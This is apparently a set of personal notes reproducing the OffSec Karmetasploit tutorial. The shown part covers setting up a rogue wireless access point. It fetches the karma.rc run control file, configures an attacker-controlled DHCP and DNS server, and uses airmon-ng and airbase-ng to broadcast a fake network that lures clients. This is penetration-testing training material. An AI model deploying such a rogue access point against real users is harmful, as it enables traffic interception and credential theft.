 ## Table of Contents



https://www.offsec.com/metasploit-unleashed/karmetasploit/

1. Obtain the run control file (above)
2. Setup the intrastructure (IP address, DHCP server etc.)
```bash
wget https://www.offsec.com/wp-content/uploads/2015/04/karma.rc_.txt
sudo apt update
sudo apt -y install isc-dhcp-server
```

`cat /etc/dhcp/dhcpd.conf`

Requirements
```shell
sudo apt -y install libsqlite3-dev
gem install activerecord sqlite3
```

- Locate wireless card
- Start wireless adapter in monitor mode with `airmon-ng`

```shell
root@kali:~# airmon-ng start wlan0
```

```shellsession
root@kali:~# airbase-ng -P -C 30 -e "U R PWND" -v wlan0mon
For information, no action required: Using gettimeofday() instead of /dev/rtc
22:52:25  Created tap interface at0
22:52:25  Trying to set MTU on at0 to 1500
22:52:25  Trying to set MTU on wlan0mon to 1800
22:52:25  Access Point with BSSID 00:C0:CA:82:D9:63 started.
```

Airbase-ng has created a new interface for us, ‘at0’. This is the interface we will now use. We will now assign ourselves an IP address.

```shellsession
root@kali:~# ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
root@kali:~#
```


[a11y.text Karmetasploit Configuration](https://www.offsec.com/metasploit-unleashed/karmetasploit-configuration/#karmetasploit-configuration)

There is a bit of setup required to get [Karmetasploit](https://www.offsec.com/metasploit-unleashed/karmetasploit/) up and going on Kali Linux Rolling. The first step is to obtain the run control file for Karmetasploit:

```shellsession
root@kali:~# wget https://www.offsec.com/wp-content/uploads/2015/04/karma.rc_.txt
--2015-04-03 16:17:27-- https://www.offsec.com/downloads/karma.rc
Resolving www.offensive-security.com (www.offensive-security.com)... 198.50.176.211
Connecting to www.offensive-security.com (www.offensive-security.com)|198.50.176.211|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1089 (1.1K) [text/plain]

Saving to: `karma.rc' 100%[======================================>] 1,089 --.-K/s in 0s

2015-04-03 16:17:28 (35.9 MB/s) - `karma.rc' saved [1089/1089]
root@kali:~#
```

Having obtained that requirement, we need to set up a bit of the infrastructure that will be required. When clients attach to the fake AP we run, they will be expecting to be assigned an IP address. As such, we need to put a DHCP server in place. Let’s install a DHCP server onto Kali.

```shellsession
root@kali:~# apt update
...snip...
root@kali:~# apt -y install isc-dhcp-server
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~#
```

Next, let’s configure our **dhcpd.conf** file. We will replace the configuration file with the following output:

```shellsession
root@kali:~# cat /etc/dhcp/dhcpd.conf
option domain-name-servers 10.0.0.1;

default-lease-time 60;
max-lease-time 72;

ddns-update-style none;

authoritative;

log-facility local7;

subnet 10.0.0.0 netmask 255.255.255.0 {
  range 10.0.0.100 10.0.0.254;
  option routers 10.0.0.1;
  option domain-name-servers 10.0.0.1;
}
root@kali:~#
```

Then we need to install a couple of requirements.

```shellsession
root@kali:~# apt -y install libsqlite3-dev
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# gem install activerecord sqlite3
Fetching: activerecord-5.0.0.1.gem (100%)
Successfully installed activerecord-5.0.0.1
Parsing documentation for activerecord-5.0.0.1
Installing ri documentation for activerecord-5.0.0.1
Done installing documentation for activerecord after 7 seconds
Fetching: sqlite3-1.3.12.gem (100%)
Building native extensions.  This could take a while...
Successfully installed sqlite3-1.3.12
Parsing documentation for sqlite3-1.3.12
Installing ri documentation for sqlite3-1.3.12
Done installing documentation for sqlite3 after 0 seconds
2 gems installed
root@kali:~#
```

Now we are ready to go. First off, we need to locate our wireless card, then start our wireless adapter in monitor mode with **airmon-ng**. Afterwards we use **airbase-ng** to start a new wireless network.

```shellsession
root@kali:~# airmon-ng


PHY     Interface       Driver          Chipset

phy0	wlan0	        ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

root@kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy0	wlan0		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)

Found 2 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

PID     Name
693     dhclient
934     wpa_supplicant

root@kali:~# airbase-ng -P -C 30 -e "U R PWND" -v wlan0mon
For information, no action required: Using gettimeofday() instead of /dev/rtc
22:52:25  Created tap interface at0
22:52:25  Trying to set MTU on at0 to 1500
22:52:25  Trying to set MTU on wlan0mon to 1800
22:52:25  Access Point with BSSID 00:C0:CA:82:D9:63 started.
```

Airbase-ng has created a new interface for us, ‘at0’. This is the interface we will now use. We will now assign ourselves an IP address.

```shellsession
root@kali:~# ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
root@kali:~#
```

Before we run our DHCP server, we need to create a lease database, then we can get it to listening on our new interface.

```shellsession
root@kali:~# touch /var/lib/dhcp/dhcpd.leases
root@kali:~# dhcpd -cf /etc/dhcp/dhcpd.conf at0
Internet Systems Consortium DHCP Server 4.3.3
Copyright 2004-2015 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/
Config file: /etc/dhcp/dhcpd.conf
Database file: /var/lib/dhcp/dhcpd.leases
PID file: /var/run/dhcpd.pid
Wrote 0 leases to leases file.
Listening on LPF/at0/00:c0:ca:82:d9:63/10.0.0.0/24
Sending on   LPF/at0/00:c0:ca:82:d9:63/10.0.0.0/24
Sending on   Socket/fallback/fallback-net

root@kali:~# ps aux | grep [d]hcpd
root      2373  0.0  0.4  28448  9532 ?        Ss   13:45   0:00 dhcpd -cf /etc/dhcp/dhcpd.conf at0
root@kali:~#
```













